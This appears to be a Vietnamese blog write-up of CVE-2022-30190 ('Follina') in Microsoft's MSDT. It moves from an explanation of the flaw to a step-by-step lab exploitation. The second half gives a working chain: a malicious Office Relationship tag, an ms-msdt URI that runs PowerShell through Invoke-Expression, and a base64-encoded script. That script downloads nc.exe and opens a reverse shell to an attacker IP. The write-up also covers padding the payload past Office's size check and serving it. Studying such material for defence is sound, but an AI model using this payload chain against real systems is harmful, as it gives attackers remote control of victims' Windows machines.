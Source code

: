 ```yaml
---
title: CVE-2022-30190 - CVE Research
time: 2025-01-10 12:00:00
categories: [research]
tags: [research,CVE]
image: /assets/posts/CVE-2022-30190/1.png
---
```

## What is CVE-2022-30190? 
- CVE-2022-30190 (CVSS score: 7.8) là một lỗ hổng thực thi mã từ xa trong Microsoft Support Diagnostic Tool (MSDT) hay còn gọi là "Follina" – một phần mềm mặc định trên Windows có nhiệm vụ báo cáo lỗi trên máy tính đến Microsoft. Lỗ hổng này tồn tại do cách gọi MSDT bằng giao thức URL từ một số ứng dụng nhất định (trong đó có một số phiên bản đã vá của MS Office 2019 và 2021).
- Nguy hiểm hơn, nếu tệp độc hại ở định dạng RTF, hành vi khai thác sẽ kích hoạt khi người dùng chọn tệp độc hại trong Windows Explorer mà không cần phải mở tệp, do đó có thể vượt qua các cơ chế bảo vệ như Protection View của MS Word.
## MSDT and CVE-2022-30190
- CVE-2022-30190, còn được gọi là lỗ hổng Follina, là một lỗ hổng nghiêm trọng trong Công cụ Chẩn đoán Hỗ trợ của Microsoft Windows (MSDT). MSDT là một tính năng tích hợp trong nhiều hệ điều hành Windows, hoạt động như "thợ máy" cho máy tính của bạn. Nó có nhiệm vụ phát hiện các vấn đề và tiến hành kiểm tra thường xuyên để đảm bảo hệ thống hoạt động mượt mà.

- Hãy tưởng tượng có ai đó có thể đánh lừa "thợ máy" này để vô tình mở khóa các "cửa" quan trọng trong hệ thống máy tính của bạn. Những "cửa" này có thể dẫn đến các thông tin quan trọng hoặc thậm chí là quyền kiểm soát các chức năng thiết yếu. Đó là bản chất của lỗ hổng CVE-2022-30190.
- Cốt lõi của CVE-2022-30190 là việc xử lý nằm ở các tệp thực thi cụ thể là `msdt.exe`. Cụ thể MSDT xử lý các URI không đúng định dạng, thường có độ dài bất thường và kết thúc bằng '!'. Việc xử lý không đúng các URI như vậy là yếu tố quan trọng cho phép thực thi lệnh trái phép (và là lỗ hổng nội tại trong MSDT).
- Hình thức phổ biến là attacker sẽ chèn 1 url độc hại vào trong file Microsoft Word, khi mở tài liệu Word bị nhiễm, tài liệu sẽ tải xuống một tệp HTML chứa mã độc thay vì nhúng trực tiếp URI quá dài. Tệp HTML này sẽ tự động tải xuống và sử dụng JavaScript để gọi URI độc hại, kích hoạt MSDT thực thi mã lệnh mà không cần quyền từ người dùng.
- ![image](/assets/posts/CVE-2022-30190/2.png)
### Để khai thác thành công lỗ hổng CVE-2022-30190, một số điều kiện nhất định cần được đáp ứng như sau:
#### Điều kiện Tiên Quyết (Preconditions)
- Vector Tấn Công: Đây là cuộc tấn công cục bộ (Local) yêu cầu sự tương tác của người dùng, với mức độ phức tạp thấp
- Môi Trường: Hệ điều hành Windows có cài đặt Microsoft Office.
- Quyền Hạn Người Dùng: Mã độc sẽ chạy với quyền hạn của người dùng mở tài liệu. Điều này có nghĩa là nếu người dùng có quyền admin, mã độc cũng sẽ có quyền tương tự.
#### Điều Kiện Để Khai Thác Thành Công (Satisfying Exploitability Checks)
- Độ Tin Cậy của Tài Liệu: Nạn nhân phải mở tài liệu Word được tạo đặc biệt cho cuộc tấn công này.

- Callback HTTP: Máy chủ web do kẻ tấn công kiểm soát phải có sẵn để cung cấp payload phụ cho mục tiêu khi tài liệu được mở.

- Giới Hạn Payload: Payload phụ (HTML độc hại) phải có dung lượng trên 4096 byte để vượt qua các kiểm tra kích thước nhất định của Office.

- Tương Tác Người Dùng: Mở tài liệu là cần thiết, nhưng với các định dạng như .rtf, đôi khi chỉ cần xem trước là có thể kích hoạt khai thác.
#### Chuỗi Tấn Công (Attack Chain Overview)
- Vector Ban Đầu: Cuộc tấn công bắt đầu với tài liệu Word chứa một tham chiếu bên ngoài, được xác định thông qua thẻ Relationship trong cấu trúc XML `word/_rels/document.xml.rels`. Tham chiếu này trỏ tới payload độc hại trên máy chủ của kẻ tấn công.
- Vector Thứ Hai: Tham chiếu bên ngoài tải payload HTML độc hại từ máy chủ từ xa khi tài liệu được mở.
- Thực Thi: Payload HTML sử dụng URI ms-msdt để chạy các lệnh PowerShell tùy ý trên máy tính của nạn nhân, kích hoạt mã độc để thao tác hệ thống hoặc đánh cắp dữ liệu.
## Các bước khai thác chi tiết
### Bước 1 : Document crafting
- Thẻ Relationship là một phần của cấu trúc XML trong tài liệu Microsoft Office (như Word, Excel) theo chuẩn Office Open XML (OOXML). Nó được sử dụng để xác định các liên kết đến tài nguyên bên trong hoặc bên ngoài tài liệu, chẳng hạn như hình ảnh, siêu liên kết, hoặc tệp dữ liệu khác. Thẻ này nằm trong các tệp *.rels của tài liệu
- Dựa vào đó attacker có thể lợi dụng để trỏ đến những liên kết độc hại

```
<Relationship Id="rId996" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject" Target="http://10.0.0.28:8000/index.html!" TargetMode="External"/>
```
### Bước 2 : Secondary payload retrieval
- Khi tài liệu Word chứa thẻ Relationship độc hại được mở, chuỗi tấn công CVE-2022-30190 (Follina) diễn ra qua các bước như sau:
1. Tải Payload HTML:
Tài liệu Word có chứa thẻ Relationship với một URL bên ngoài trong phần XML document.xml.rels.
Khi tài liệu mở, Word sẽ đọc phần Relationship này và tự động tải tài nguyên từ URL được chỉ định. Tài nguyên này là một tệp HTML chứa mã độc từ máy chủ của kẻ tấn công.
2. Kích hoạt Tệp HTML:
Tệp HTML độc hại được tải xuống từ máy chủ của kẻ tấn công và chứa JavaScript để kích hoạt URI ms-msdt.
3. Khai thác URI ms-msdt:
Lược đồ URI ms-msdt được sử dụng để truyền các tham số hoặc lệnh đến MSDT, cho phép MSDT thực hiện các lệnh PowerShell từ xa.
Trong khai thác này, tệp HTML độc hại sử dụng ms-msdt để gửi lệnh PowerShell, kích hoạt RCE.

### Bước 3: PowerShell execution
- Ví dụ:

```
ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'bm90ZXBhZA=='+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe\"
```


## Triển khai lỗ hổng CVE-2022-30190
- Đầu tiên, ta tạo 1 liên kết html độc hại để file `document.xml.rels` trỏ đến, mình sẽ test nó trên local
```python
<script>
    location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String(\"SW52b2tlLVdlYlJlcXVlc3QgaHR0cHM6Ly9naXRodWIuY29tL2ludDB4MzMvbmMuZXhlL3Jhdy9yZWZzL2hlYWRzL21hc3Rlci9uYy5leGUgLU91dEZpbGUgQzpcV2luZG93c1xUYXNrc1xuYy5leGU7IEM6XFdpbmRvd3NcVGFza3NcbmMuZXhlIC1lIGNtZC5leGUgMTkyLjE2OC4xLjEwOCA0NDQ0\"'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe\"";
</script>
```
- ![image](/assets/posts/CVE-2022-30190/3.png)
- Thẻ script này tải xuống 1 file nc.exe và thực hiện kết nối với ip `192.168.1.108:4444` của máy attacker.
- Tuy nhiên điều kiện để vượt qua các kiểm tra về kích thước của office là dung lượng phải lớn hơn 4096 byte nhưng khi kiểm tra ta chỉ có 580 byte nên ta sẽ chèn thêm byte rác vào
```
┌──(kali㉿kali)-[~/Downloads/TEST CVE]
└─$ ll
total 4
-rw-rw-r-- 1 kali kali 580 Jan 10 17:00 index.html
```
![image](/assets/posts/CVE-2022-30190/4.png)

- Bây giờ dùng http.server để tạo liên kết local, đồng thời dùng lệnh `nc -lnvp 4444` trên máy attacker để lắng nghe
- SỬ dụng cú pháp python3 -m http.server [port]
![image](/assets/posts/CVE-2022-30190/5.png)
![image](/assets/posts/CVE-2022-30190/6.png)

- Tiếp theo truy cập vào `http://[ip_attacker]:[port]` để xem tạo thành công hay chưa
![image](/assets/posts/CVE-2022-30190/7.png)
- Tiến hành tạo file word, sau đó mở file `word/_rels/document.xml.rels` và thêm nội dung sau đây vào 

```
<Relationship Id="rId996" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject" Target="[url:port]/index.html!" TargetMode="External"/>
```

![image](/assets/posts/CVE-2022-30190/8.png)

- Ngay sau khi victim click vào, server thông báo có ip mới truy cập, đồng thời file nc.exe cũng được tải xuống. chứng tỏ đã reverse shell thành công.
![image](/assets/posts/CVE-2022-30190/9.png)
![image](/assets/posts/CVE-2022-30190/10.png)
![image](/assets/posts/CVE-2022-30190/11.png)
- Thậm chí tải các file mã độc khác cho các giai đoạn khác nhau
![image](/assets/posts/CVE-2022-30190/12.png)
- Ngoài ra ta có thể dùng các POC có sắn như : https://github.com/JohnHammond/msdt-follina




